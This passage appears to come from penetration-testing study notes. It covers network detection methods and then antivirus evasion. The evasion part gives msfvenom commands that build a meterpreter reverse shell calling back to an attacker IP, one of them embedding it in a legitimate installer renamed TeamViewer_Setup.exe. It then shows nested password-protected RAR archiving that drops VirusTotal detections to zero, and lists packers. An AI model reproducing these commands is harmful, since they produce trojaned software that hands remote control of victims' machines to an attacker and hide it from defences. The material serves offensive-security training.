    * Application Policies
    * User Access Control Policies
    * File Management Policies
    * DDoS Protection Policies
    * Others

There are multiple ways to match an event or object with a security policy entry:

| Security Policy                          | Description |
|------------------------------------------|-------------|
| **Signature-based Detection**            | The operation of packets in the network and comparison with pre-built and pre-ordained attack patterns known as signatures. Any 100% match against these signatures will generate alarms. |
| **Heuristic / Statistical Anomaly Detection** | Behavioral comparison against an established baseline, including modus-operandi signatures for known APTs (Advanced Persistent Threats). The baseline identifies the norm for the network and common protocols. Any deviation from the maximum threshold generates alarms. |
| **Stateful Protocol Analysis Detection** | Recognizing the divergence of protocols by comparing events against pre-built profiles of generally accepted definitions of non-malicious activity. |
| **Live-monitoring and Alerting (SOC-based)** | A team of analysts in a dedicated (in-house or leased) SOC (Security Operations Center) uses live-feed software to monitor network activity and intermediate alarming systems for potential threats. They decide whether to act on threats or let automated mechanisms respond. |

</details>

<details>
<summary><h4>Evasion Techniques</h4></summary>

> This section covers evasion at a high level. Be on the lookout for later modules that will dig deeper into the knowledge needed to perform evasion more effectively.

<details>
<summary><h5>EXE</h5></summary>

We can embed the shellcode into any installer, package, or program that we have at hand, hiding the payload shellcode deep within the legitimate code of the actual product. This greatly obfuscates our malicious code and, more importantly, lowers our detection chances.

```bash
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -k -x ~/Downloads/GTA_SA_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ./TeamViewer_Setup.exe -i 5
``` 

</details>

<details>
<summary><h5>Archives</h5></summary>

Archiving a piece of information such as a file, folder, script, executable, picture, or document and placing a password on the archive bypasses a lot of common anti-virus signatures today. However, the downside of this process is that they will be raised as notifications in the AV alarm dashboard as being unable to be scanned due to being locked with a password.

```bash
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -k -e x86/shikata_ga_nai -a x86 --platform windows -o ./test.js -i 5
``` 

If we try to view the content of the file, we will get something like this:

```bash
cat test.js

# �+n"����t$�G4ɱ1zz��j�V6����ic��o�Bs>��Z*�����9vt��%��1�
# ...
# �Qa*���޴��RW�%Š.\�=;.l�T���XF���T��
``` 

We can inspect the file using VirusTotal 

```bash
msf-virustotal -k <API key> -f test.js 

# [*] Using API key: <API key>
# ...
# [*] Analysis Report: test.js (11 / 59): ...
``` 

So far, we have achieved a 82% success ratem but we can achieve even more.

Let's compress the payload using rar

```bash
wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
``` 

We can now compress the file with a password
```bash
rar a ~/test.rar -p ~/test.js

# Enter password (will not be echoed): ******
# Reenter password: ******
# ...
# Done
``` 

At this point, we will have two files:

```bash
ls

#test.js   test.rar
``` 

Now, we remove the .rar extension

```bash
mv test.rar test
ls

#test.js   test
``` 

We archive the payload one more time

```bash
rar a final.rar -p test

# Enter password (will not be echoed): ******
# Reenter password: ******
# ...
# Done
``` 

Finally, we remove the .rar extension one more time

```bash
mv final.rar final
``` 

After that, we can proceed to upload it on VirusTotal for another check.

```bash
msf-virustotal -k <API key> -f final

# [*] Using API key: <API key>
# ...
# [*] Analysis Report: final (0 / 59): ...
``` 

As we can see from the above, this is an excellent way to transfer data both to and from the target host.

</details>

<details>
<summary><h5>Packers</h5></summary>

The term Packer refers to the result of an executable compression process where the payload is packed together with an executable program and with the decompression code in one single file. This process takes place transparently for the compressed executable to be run the same way as the original executable while retaining all of the original functionality. In addition, msfvenom provides the ability to compress and change the file structure of a backdoored executable and encrypt the underlying process structure.

Here is a list of popular packer software:

* [UPX packer](https://upx.github.io/)
* [The Enigma Protector](https://enigmaprotector.com/)
* [MPRESS](https://web.archive.org/web/20240310213323/https://www.matcode.com/mpress.htm)
* Alternate EXE Packer
* ExeStealth
* Morphine
* MEW
* Themida

</details>

</details>

</details>

</details>

---

📘 **Next step:** Continue with [PASSWORD ATTACKS](./07-password-attacks.md)

